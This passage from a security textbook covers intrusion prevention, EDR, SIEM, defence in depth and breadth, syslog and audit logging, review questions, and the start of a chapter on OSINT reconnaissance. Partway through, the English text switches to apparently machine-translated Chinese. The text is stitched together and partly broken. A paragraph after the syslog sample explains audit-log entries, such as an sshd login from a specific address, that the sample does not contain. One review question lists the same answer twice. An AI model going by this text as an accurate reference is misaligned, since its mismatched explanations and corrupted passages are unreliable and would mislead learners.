

**FIGURE 3.4** Network diagram showing IPS placement

With the IPS in the flow, it can act like a firewall, making decisions about whether to accept or reject packets as they enter the network. The difference between an IPS and a firewall is that the “firewall rules” on an IPS would be dynamic. Rather than having large blanket rules blocking IP addresses wholesale, the IPS would make decisions based on the contents of the packet. The rule would be in place for the duration of the packet passing through the IPS—essentially a one‑off. The rule may just exist to handle that one packet, or it may be in use for a longer period, but the rules are dynamic and temporary by nature. Also while inline, either the IPS can choose to drop the message, meaning just discard it, or it can reject it with an appropriate message. This may be an ICMP destination unreachable message, for example.

Even with an IPS where potential attacks are blocked, the logs and alerts should be investigated. Not every message that matches an IDS/IPS rule will be a legitimate attack. In several cases of running a basic `Snort` installation with the community rules, I have run across alerts indicating bad SIP messages, when in fact the traffic was HTTP over port 80, not SIP. Rules are not infallible, so it is possible for rules to catch legitimate traffic, and if you are running an IPS, you may end up blocking messages from customers or partners.


One of the challenges of an IDS or IPS is the volume of logs they can create. This is a factor of the number of rules you have, how well they are written, and how much traffic you get into your network, as well as the placement of your sensors. Alerting is a significant challenge, and it can require a lot of work to fine‑tune rules so your analysts, or whoever is looking at the alerts, don't become screen‑blind, meaning they get so used to seeing the same alerts over and over that they end up missing one that is legitimate—a white rabbit in a field of white snow/noise. Fortunately, there are solutions that can help with that problem.

## Endpoint Detection and Response

While you may be familiar with anti‑malware software, used to detect the existence of viruses and other malicious software on a system, you may be less familiar with this. Endpoint detection and response (EDR) is a class of software that can perform a range of functions that are useful to a security operations staff. There are several commercial offerings in the EDR space, and each one of them may provide a different set of functionalities, though there will be a core set of functions they all provide.

One function they may provide is anti‑malware. Not all EDR solutions will offer this sort of preventive control. An EDR that offers anti‑malware may be focused not only on the signatures that would be typical for anti‑malware but also behavior‑based detections. After all, the vendors of this EDR solution are aware of the same TTPs that MITRE publishes so they can look for the TTPs that would relate to how malware may expect to install and run. They may be able to prevent malware from executing, or at least generate an alert to indicate suspicious behavior was found.

EDR solutions may also detect other malicious behavior, which may be done through investigating logs that are available on the system. However, the most common function EDR tools will perform is being able to remotely assess systems from a central console. Additionally, these tools can be used to pull back artifacts from the systems. This may include such details as process listings, memory dumps, files, or logs. Figure 3.5 shows the web interface from Google Rapid Response (GRR), which is an open source EDR tool. It is not as feature rich as some of the commercial tools available, but it is free and can be used to easily extract data from remote systems.



**FIGURE 3.5** Google Rapid Response system

Having the ability to capture details quickly without having to go to the target system makes response a lot faster. However, attackers do know about these tools and may simply opt not to run if the existence of the tool is detected. They may also go into more extreme versions of evasion to make it a lot harder for the EDR to locate the attacker and their techniques. However, if you need to be able to capture a lot of details about a remote system for any sort of investigation, these tools are invaluable.

Another function EDR tools can often provide is isolation. If you happen to notice an attacker has gained access to a system, you want to keep them from being able to get to other systems within the environment. You don't want them to know that you know they are there, however. If they know you know they are there, they either may go into hiding, remaining in the environment while staying away from your prying eyes until you stop prying, or may burn everything down just to make life harder for the business.

An EDR tool may be able to perform something called *host isolation*. While this may be able to be done within the network, especially if you have firewall controls within the network segments, it can be more efficient to just use a software control on the local system where the attacker has been seen. The attacker retains access to the system, but they are unable to get out to any other system. This may be done while the complete scope of the investigation is being completed—trying to figure out everywhere the attacker is within the environment.

## Security Information and Event Management

一个在系统管理和安全方面都很好的做法是系统日志。日志有助于诊断系统和网络中的问题，也能在潜在问题的调查中提供帮助。取证调查人员和事件响应人员会发现它们不可估量。如果你曾经在没有日志的情况下排查出故障的系统或应用程序，你就会明白日志的价值。然而，将所有日志设置到最大并不是答案。日志会占用磁盘空间，虽然现在磁盘空间相对便宜，但它们也会消耗处理能力，日志量过多反而会让你在海量文本中翻找，难以找到能帮助你的那一条记录。你不一定知道要搜索的具体文字。

这时，一个良好的日志管理系统会派上用场。在安全事件的情况下，这些系统还可以包括搜索和关联工具。虽然有很多日志管理解决方案，但许多组织正在转向所谓的安全信息与事件管理（SIEM）。SIEM 软件并非单纯的日志管理工具，你不能简单把所有日志丢进去就行。SIEM 软件用于关联和分析安全警报，并能更好地可视化数据。例如，在 Figure 3.6 中，你可以看到 Kibana（属于 Elastic Stack（Elasticsearch、Logstash、Kibana），即以前的 ELK Stack）中的 DNS 响应码。



**FIGURE 3.6** Kibana interface to the Elastic Stack

Elastic Stack 是一个很好的平台，用于摄取来自多个来源的大量数据，包括日志数据和数据包。如 Figure 3.6 所示，这是 Elastic Stack 安装后系统记录到的 DNS 响应列表。与其他 SIEM 产品一样，Elastic Stack 提供丰富的搜索功能，并基于提供的数据给出大量可视化选项。

安全运营中心（SOC）通常围绕监控系统构建，其中包括可以关联多个来源数据的 SIEM 系统。使用 SIEM 的优势在于能够汇总大量数据，从而获得网络整体的更广阔视图，帮助发现趋势和大规模攻击。单独观察一次攻击可能导致你只关注当前这一攻击，而忽视其他系统也在被攻击的事实。单一系统不一定能提供入口点。

数据点可以帮助确保已有的控制措施能够保护信息资产。数据只是起点，你仍需能够对其进行解释并知道如何处理。制定策略很重要，这包括政策与流程以及技术计划。你可能还想制定实施所有措施的哲学。

## 为准备

技术固然重要，但单靠技术本身不足以保护网络。人们常说，唯一安全的电脑（以及相应的网络）是所有电缆都被切断，最好填满水泥并沉入海底的机器。如果你想使用电脑，就不可避免地面临被感染或入侵的风险。安全来源于规划与准备。要做好准备，你需要深思自己的行为及其后果，以及所实施的解决方案。

实施安全解决方案需要了解你的资源——这不仅包括信息资产，还包括技术资产。最重要的是，人力资源。单靠技术是不够的。你可以通过防御深度（defense‑in‑depth）的设计与架构来处理技术层面的安全。防御深度需要人力配合。

如前所述，日志在应对安全事件时极其重要。即便拥有 SIEM 解决方案，你也需要向其提供数据。你可以通过确保系统进行日志记录来获取这些数据。此外，审计信息有助于留下活动痕迹，便于追踪行为。

### 防御深度

防御深度是一种分层网络设计概念。每当我听到“防御深度”时，就会联想到《魔戒》中的米那斯提尔。米那斯提尔是一座拥有七道同心城墙的城市，第七道城墙内是卫城。如果入侵者设法突破其中一道城墙，守军会退入下一道城墙，直至（必要时）退至最内层的城墙。理想情况下，入侵者会在穿越七道巨大的城墙时放弃或被击退。正如《回到黑暗之路》一书中发现的，即使有七道城墙，也并不总是足以防御这座城市。

米那斯提尔之所以让人联想到防御深度，是因为它是一个典型的分层防御范例。采用防御深度的做法，你会设计一个拥有多个安全网关的分层网络，以控制各层之间的访问。防御深度的一个目标是延迟攻击者或对手，而不是必然阻止他们进入。延迟的目的还在于，理想情况下，在过程中产生痕迹。当使用防御深度策略时，攻击者在穿越网络层时会留下痕迹，这些痕迹可以被自动化分析工具或运营人员检测。希望检测到后，能在攻击者接触到敏感信息之前将攻击 shutdown。

防御深度是军事概念，已被适应到其他领域。其中之一，自然是信息安全。你会注意到，这种多层城墙的方法带来的好处是冗余。第二道城墙相对于第一道提供冗余，第三道相对于第二（进而相对于第一）亦如此，以此类推。这并不意味着你必须在每个层面上堆叠相同的控制措施。更好的做法是，在多个领域提供跨区域的冗余控制。

首先要考虑的控制领域是物理安全。这意味着要防止未经授权的人员接触系统。任何拥有物理访问权限的人都有潜力登录系统——例如，可能已经有用户登录，且系统未锁定，任何人都能成为登录用户。攻击者可能利用外部驱动器启动系统并更改密码或创建新用户。如果攻击者拥有系统的物理控制权，他可以通过多种方式获取访问权限。

第二个控制领域是技术安全。这里讨论的防火墙、入侵检测系统、SIEM 等安全技术。除了这些，还包括软件或配置控制，如密码策略、要求复杂密码。防病毒或其他端点防护也属于技术控制。任何旨在防止未经授权使用的硬件或软件，都算作技术控制。

最后，还有行政控制。这些是政策、标准和程序。这可能包括招聘标准、背景调查和数据处理政策等政策或做法。这些行政控制决定了组织的保护方式，并且是必不可少的。

Figure 3.7 展示了如何实施防御深度（defense‑in‑depth）的某些元素的示例。你可以在网络入口处看到有一个防火墙。防火墙之后有两个分离的网络。第一个是非军事化区（demilitarized zone），这里面是那些虽然属于企业网络但仍然不受信任的服务器。这里面可能放置面向 Internet 的服务器，如 Web 或邮件服务器。防火墙的另一侧是放置内部服务器的地方，例如 Active Directory 或文件服务器。这种网络分段通常是防御深度（defense‑in‑depth）策略的一部分。



**FIGURE 3.7** Defense‑in‑depth network design

一个防火墙保护内部网络免受服务器网络的侵害，反之亦然。最后，我们已在防范入侵和终端保护方面建立了措施。下面的图并未展示企业内部已有的政策和程序。我们不仅在网络中设置了多个层级，攻击者需要跨越这些层级，而且在不同的检测和防护点上也有所不同。当然，这不仅仅是网络设计、技术和政策程序的问题。

### 防御广度（Defense in Breadth）

多年来，一直存在关于防御深度（defense in depth）与防御广度（defense in breadth）优势的争论。防御深度是否足够，还是组织需要实施防御广度？显然，防御广度的挑战在于它很少被很好地说明。如果你搜索防御广度的解释，你会发现大量关于为何防御广度是好的、以及防御深度本身不足以在现代组织中实施安全解决方案的论述。问题在于，当你能够找到防御广度的定义时，它往往非常模糊。

多年来我对防御广度的理解是：它是防御深度所缺失的“包围”。防御深度没有考虑所有的人为因素。防御广度旨在从风险视角对组织进行更全面的审视。组织需要评估风险，并系统性地考虑如何缓解任何风险，同时考虑组织可能面临的威胁。要全面评估风险并全面审视潜在解决方案，组织需要大量数据。

一种思考方式是：防御深度主要关注防止（prevention）。但防止并非总是现实，尤其是在旧式针对外部监听服务漏洞的技术攻击不再是首选向量的时代。相反，攻击者更倾向于针对用户，因此社会工程攻击和大量恶意软件更为常见。因此，最佳的安全做法不是只侧重于防止，而是假设你终将会被入侵，并为响应做好准备。

为了做好响应准备，你需要大量的检测能力和历史数据。此外，还需要一支 incident response（事件响应）团队，其成员清楚自己的角色。你还需要在不同团队之间进行大量沟通。安全团队的成员不一定是执行所有事件响应工作的最佳人选。这意味着打破传统的部门孤岛是必不可少的。

信息技术（IT）领域正出现一种趋势，即开发团队与运维团队的协作， commonly 称为 DevOps。更具前瞻性的公司还确保在整个过程中将安全融合进去，形成所谓的 DevSecOps。这些做法不仅关注团队协作和必要的沟通，还强调自动化。自动化构建、测试和部署可以大幅减少人为因素，帮助避免配置错误或其他失误。

你可以看到，防御广度是一个概念，一旦你开始思考在组织内部何处可以注入安全讨论，它可能会变得非常复杂，甚至难以完全实施。最终，防御广度的目标是让组织更好地防护，并且能够快速应对攻击 — — 以及在 breach（突破）后尽快恢复业务运营。

### 可防御的网络架构


另一种在构建网络时可考虑的做法是采用可防御的网络架构（defensible network architecture）。这并不排斥防御深度或防御广度，而是强调让网络更易于监控和控制。请记住，攻击者的常用手段之一是在网络环境中横向移动（lateral movement），即从一个系统移动到另一个系统。一旦他们 compromise（compromise）了一个系统，就会尝试访问其他系统。由于攻击者更容易看到本地网络上的系统，他们可能会先针对这些系统，直到获得关于其他网络中系统的更多信息。

攻击者通常不掌握整个企业网络的全貌，除非他们偶然看到网络图。如果你在网络入口/出口部署防火墙，并采用常见的分段方式，你就能监控所有流量的进出。你还可以设置 choke point（拥塞点），即如果你怀疑攻击者在某个网络段，就可以限制其对其他网络段的访问。

拥有此类阻断和监控控制，能够更好地跟踪和控制攻击者的行为，尤其是在攻击生命周期后期发现他们已经在环境中驻扎一段时间时。你可能无法阻止他们最初的入口，但应能够监控他们并限制进一步访问，直至你能够完整了解其渗透范围。

### 日志（Logging）

日志是在此过程中多次出现的概念，既包括系统日志也包括应用日志。除了系统或桌面/服务器的日志外，还包括网络设备（如路由器、交换机和防火墙）的日志。即使在网络中部署 IDS（入侵检测系统），你也不一定需要对所有事件发出警报，因为有些事件可能不需要后续跟进。但这些事件的记录在 breach（突破）发生后可能非常有用。历史数据的重要性不容低估。

许多系统，包括类 Unix 系统以及网络设备，都支持 `syslog` 协议。该协议最初是作为 Simple Mail Transfer Protocol（SMTP）服务器 `sendmail` 的日志机制而出现的。自 1980 年代 `syslog` 首次在 `sendmail` 中实现以来，它已成为类 Unix 系统的标准日志解决方案，并已在 RFC 3164 中得到文档化，随后在 RFC 5424 中标准化。`syslog` 既拥有易于理解的语法，用于创建和阅读消息，也可以用于远程日志传输和本地日志记录。

因为 `syslog` 支持远程日志记录，它可以作为集中化的日志主机使用。这一点在为应急响应做准备时，可能显得尤为重要。常见的隐藏痕迹的做法是清除日志。任何获得系统访问权限的攻击者可能会擦除本地日志，但如果他们正在将日志流传到外部，则日志会保留供以后使用，除非攻击者能够入侵集中日志主机。

下面的代码块展示了 `syslog` 消息的示例。每条消息以日期开头，随后是发出消息的主机名。接着是产生日志的进程（包括进程 ID）。最后是进程生成的消息内容。

```
[syslog Messages]
Jun 26 10:27:16 boardinghouse kernel: [923361.001444] vmbr0: port 3(tap210i0) entered forwarding state
Jun 26 10:27:17 boardinghouse pvedaemon[10864]: <root@pam> end task
UPID:boardinghouse:000034F1:0580EE23:5B326963:qmstart:210:root@pam: OK
Jun 26 10:27:42 boardinghouse pvedaemon[9338]: <root@pam> starting task
UPID:boardinghouse:00003552:0580F8B5:5B32697E:vncproxy:210:root@pam:
Jun 26 10:32:09 boardinghouse pvedaemon[9338]: <root@pam> end task
UPID:boardinghouse:00003552:0580F8B5:5B32697E:vncproxy:210:root@pam: OK  
```

每个条目提供关于条目类型的详细信息，这表明审计子系统已检测到什么。例如，第一个条目表明用户已登录。你可以从详细信息中看到，连接的来源地址是 `192.168.86.49`，可执行文件是 `/usr/sbin/sshd`，结果是成功。其他条目表示文件操作、程序执行和配置更改。

与 Windows 审计类似，Linux 审计也需要配置。你通过创建规则来完成，这些规则会被审计守护进程使用。你可以直接在配置文件中进行更改，也可以使用 `auditctl` 命令在命令行上添加规则。这会直接实施更改，是审计系统启动时被调用的内容。写入配置文件中的是将作为参数传递给 `auditctl` 的命令行参数。

## Summary

在信息安全领域，我们需要掌握的一些基本概念。首先是信息安全的三个基本属性——机密性、完整性和可用性。机密性是保持秘密信息机密的需求。完整性意味着在不应更改时确保数据保持不变。最后，可用性意味着信息（包括服务）在预期可用时是可用的。除了这三元组之外，保密性、完整性和可用性（即 CIA 三元组）还包括帕克六元组，其进一步增加了实用性、真实性和所有权或控制权。

在技术层面，常见的实现包括防火墙。防火墙具有多种功能区域。最基本的防火墙是包过滤，它基于数据包头部进行决策。状态防火墙在决策时会考虑连接的状态。深度包检查防火墙可以检查数据负载以决定是否阻止消息。最后，统一威胁管理设备（有时被称为下一代防火墙）可以将防火墙功能提升到新的水平，同时加入防病毒功能。防病毒会检查网络流量中的恶意软件，而不是等到它到达端点。

应用层网关也是防火墙的一种变体。这些设备了解应用层协议，并可以根据流量是否匹配到允许的终端以及流是否符合协议来决定数据包的处理。

单靠技术是不够的。防御深度（defense‑in‑depth）策略在技术部署的位置之外，还在政策、程序和标准上加层，以指导安全功能。防御广度（defense in breadth）在防御深度的基础上提供更广阔的视角，增加组织内的多层包围，可能包括安全意识培训、检测、响应准备以及其他超出单纯防止攻击的能力。

在当今企业环境中，做好攻击准备至关重要。确实存在事件响应计划、政策和团队。但从技术角度来看，日志和审计在响应时非常有帮助。日志可以是系统日志或应用日志，记录程序员确定的操作轨迹。审计在 Windows 上包括对文件、用户或其他系统对象的访问成功或失败日志。Linux 方面，审计规则可以监控文件和目录以及系统调用。

## Review Questions

1. 为了在恶意软件到达端点之前从网络中清除它，你会使用以下哪种？

   1. 包过滤

   2. 应用层网关

   3. 统一威胁管理设备

   4. 状态防火墙

2. 如果你在客户现场发现自己在家里留下了一个包含关键数据的外部硬盘，这违反了哪项安全原则？

   1. 机密性

   2. 完整性

   3. 不可否认性

   4. 可用性

3. 如何计算风险？

   1. 可能性 × 损失价值

   2. 可能性 × 缓解因子

   3. (损失价值 + 缓解因子) × (损失价值/可能性)

   4. 可能性 × 缓解因子

4. 以下哪项是防御深度网络设计的因素？

   1. 交换机

   2. 在桌面上使用 Linux

   3. 光纤电缆连接

   4. 路由器上的访问控制列表

5. 如何在组织中实现机密性？

   1. 看门狗进程

   2. 加密

   3. 加密哈希

   4. Web 服务器

6. 入侵检测系统（IDS）可以执行以下哪项功能？

   1. 阻断流量

   2. 基于头部过滤流量

   3. 生成流量警报

   4. 记录系统消息

7. 哪项是完整性丢失的例子？

   1. 用户对文件进行修改并保存

   2. 磁盘上出现坏块

   3. 信用卡以明文方式传输

   4. 因内存故障导致磁盘驱动程序运行错误

8. 你会使用安全信息事件管理（SIEM）系统做什么？

   1. 聚合并搜索日志数据

   2. 管理安全项目

   3. 升级安全事件

   4. 存储开源情报

9. 远程存储系统日志的重要性在于：

   1. 本地系统无法承受。

   2. 带宽比磁盘更快。

   3. 攻击者可能会删除本地日志。

   4. 它可以防御攻击。

10. 要让 TCP 会话被状态防火墙视为已建立，需要：

    1. 最终确认报文

    2. 三次握手完整

    3. 序号对齐

    4. SYN 报文收到

11. 安全策略的作用是：

    1. 提供安全角色的高层次指导

    2. 为安全人员提供具体指示

    3. 增加公司的底线

    4. 使标准和实践保持一致

12. 帕克六元组（Parkerian hexad）在 CIA 三元组之上还增加了哪些属性？

    1. 机密性、意识、真实性

    2. 实用性、意识、所有权

    3. 实用性、所有权、真实性

    4. 所有权、控制、真实性

13. 开启审计后可以暴露的重要事件是：

    1. 系统关机

    2. 服务启动

    3. 包安装

    4. 用户登录

14. 入侵防御系统（IPS）可以做到而入侵检测系统（IDS）不能做到的：

    1. 生成警报

    2. 阻断或丢弃网络流量

    3. 完成三次握手以应对虚假报文

    4. 记录数据包

15. 下列哪项是应用层网关的例子？

    1. Web 应用防火墙

    2. 运行时应用自我保护

    3. Java 小程序

    4. 入侵防御系统

16. 包过滤会使用以下哪项信息来决定允许的流量？

    1. HTTP 请求报文

    2. 以太网类型

    3. UDP 源端口

    4. SNMP OID

17. 下列产品可能用作入侵检测系统（IDS）？

    1. Elastic Stack

    2. Prewikka

    3. Snort

    4. Snorby

18. 下列哪项不是导致完整性受损的攻击示例？

    1. 缓冲区溢出

    2. 中间人攻击

    3. 堆喷射

    4. 水坑攻击

19. 哪种攻击会直接导致可用性的妥协？

    1. 水坑攻击

    2. 拒绝服务（DoS）

    3. 钓鱼

    4. 缓冲区溢出

20. EDR（端点检测与响应）能为安全运营人员提供哪项重要功能？

    1. `主机隔离`

    2. `恶意软件检测`

    3. `远程数据收集`

    4. `以上全部`

21. 哪种类型的安全控制是防火墙？

    1. `行政`

    2. `物理`

    3. `技术`

    4. `纠正`

22. 管理已被告知存在一种因公司开发和管理的应用程序而导致的个人可识别信息（PII）风险。他们已选择对此风险不采取任何措施。他们采取了何种风险管理方法？

    1. `风险转移`

    2. `风险规避`

    3. `风险缓解`

    4. `风险接受`

23. 你被要求实施一套标准以支持政策。你在开发什么类型的安全控制？

    1. `行政`

    2. `纠正`

    3. `逻辑`

    4. `功能`

24. 你的风险管理团队要求一个技术控制，以减轻可能与内部威胁相关的风险。以下哪项控制可以实现此目的？

    1. `安全策略`

    2. `身份和访问管理（IAM）解决方案`

    3. `安全标准`

    4. `主机防火墙`

25. 攻击者已注册域名 `facebookmailings.com`，用于发送钓鱼消息。这属于 MITRE ATT&CK 框架的哪个类别？

    1. `初始访问`

    2. `横向移动`

    3. `凭据访问`

    4. `资源开发`

# 第 4 章 侦察与足迹

## 侦察与足迹（foot-printing and Reconnaissance）

普遍认为攻击者在发动攻击前会进行大量前期工作。他们会了解攻击面的大小以及目标的位置。这需要大量工作，动用多种工具和技能。获取目标规模和范围的过程称为 *footprinting*——也就是说，攻击者（或你，伦理黑客）试图收集目标组织的足迹。在伦理黑客实践中，你可能会得到目标方的帮助，他们会雇佣你提供服务。他们可能会给你一些立足点，帮助你了解应做的范围和规模。不过，也有可能你是一无所知，需要自己寻找立足点。

作为伦理黑客，你可以从很多渠道获取目标信息。开源情报（open source intelligence）是指利用公开可得的资源来识别目标信息的术语。还有其他非法途径可以获取信息，当然，你也可以直接潜入公司实体场所获取信息，这既可能违法，也绝非开源情报。

这里的目标是获取所需数据而不让目标察觉到你的活动。因此，你可能会利用第三方来源获取所需信息。你也可以通过以目标服务的正常方式进行交互来获取大量细节。例如，你可以访问他们的网站并请求页面，这与其他访客的行为完全相同。你请求的内容或方式并无特殊之处。但如果你知道去哪里查找，就能获取目标系统和使用的技术的大量信息。

一个信息丰富的来源是域名系统（DNS）。它不是大多数人花时间思考的对象。当它正常工作时，你会毫无察觉，因为它在背景中默默运行。然而，DNS 服务器中存储着大量关于域名和 IP 地址段的数据，这些数据可以被挖掘，帮助你更好地了解目标、系统以及可能与目标关联的 IP 地址段。

在进行渗透测试的不同阶段时，识别与 MITRE ATT&CK 框架匹配的项目会很有帮助。我们在此阶段运气不错。ATT&CK 框架包含一个侦察阶段，涵盖扫描以及从多个来源收集关于目标各方面信息的过程。虽然人们常以为攻击者在寻找漏洞和感兴趣的系统，但他们更可能在寻找人为目标。这可能包括识别员工和电子邮件地址，以及他们所做的工作，从而判断他们拥有的访问权限。更大的访问权限意味着攻击者更容易获取可以轻易货币化的资源。

本章将介绍目标信息的来源以及用于收集这些信息的工具。大部分信息相对安静，至少有一个工具是完全被动的；同时也有主动的调查。第一步是利用公开数据源确定一个跳板点，以便获取目标信息。

## 开源情报（Open Source Intelligence）

你可能会有两个主要原因想使用开源情报。第一是你没有收到目标的任何详细信息。你可能正在对目标公司及其系统进行真正的红队演练，此时你需要尽可能多地收集信息，以了解攻击面及可能的入口点，同时也能获取组织内个人的信息，这对于社会工程攻击的成功率很高。拥有目标联系人是至关重要的。

第二个原因是组织往往并不意识到它们泄露了多少信息。正如前文所述，攻击者可以利用这些泄露获得立足点，甚至作为社会工程攻击的潜在目标。如果你与正在接受测试的公司合作（即进行白盒测试），则不必依赖开源情报来寻找起始点，但仍应收集已有的信息以提高公司的安全意识。即使无法撤回已泄露的信息，公司仍可通过提高员工和整体意识来防止不必要的信息泄露。

自动化工具可以帮助你收集信息，我们将在探讨如何利用开源情报获取公司和个人信息时介绍这些工具的使用。我们也会查看社交网络站点以及这些网站的使用方式。即使隐私设置已锁定，仍有大量信息可以获取。还有专门公开的站点，这些站点自然可以被利用。

### 公司

获取目标开源情报的起点有几个。第一是整体审视公司。你需要收集公司的各个地点信息。虽然在某些情况下这很容易获取，但越来越多的情况并非如此。原因在于公司认识到提供越多信息，越可能被用于针对他们的攻击。除非受法规要求，否则他们通常不会主动提供这些信息。有一些资源可以用于获取公司信息。

有时，这些资源可以用于收集信息，这些信息可能被用于社会工程攻击。在某些情况下，你可以获取公司网络的详细信息。这两类信息都可能有用。关于公司及其组织和治理结构的信息，可能来自美国政府维护的数据库（针对在美国注册的企业）；而关于公司网络的信息，则可能来自负责互联网治理的组织所维护的数据库。

#### EDGAR

公开公司必须提供关于自己的信息。你可以使用的资源用于查找这些信息。在此过程中，你可能会收集到公司的组织结构信息。组织结构可以告诉你谁担任什么职位，因此在以后通过电子邮件收集更多信息时，你会知道信息应来自哪位人员。

美国证券交易委员会（SEC）拥有一个数据库，存储所有公开公司的提交文件。电子数据收集、分析和检索（EDGAR）系统可用于查找公开文件，如 10‑K 年报。此外，季度报告（10‑Q）也提交至 EDGAR 并存储其中，这些报告提供了公司财务的详细信息。11‑K 表格，包含员工股票期权计划的详细信息，也会提交至 EDGAR。访问 EDGAR 与访问 SEC 网站上的 EDGAR 页面一样简便。你可以看到搜索框以及页面的一部分，在 Figure 4.1。


**FIGURE 4.1** EDGAR site

在 EDGAR 中最有用的表格之一是 SEC 网站上的 Schedule 14A，它是一份代理声明，可能包含给股东的年报，里面蕴含了大量对你有用的信息。例如，Figure 4.2 展示了微软公司年报给股东的极小一部分。未展示的章节包括微软的公司治理、董事会以及审计委员会事宜。虽然从高层面看，这些报告的内容在所有公开公司中基本相同，但有些公司会提供更详细的信息，有些则报告更多。例如，微软报告的目录显示页码在 80 多页，而 John Wiley & Sons 的报告页码在 50 多页，两者相差约 30 页。


**FIGURE 4.2** Portion of Schedule 14A for Microsoft

#### Domain Registrars

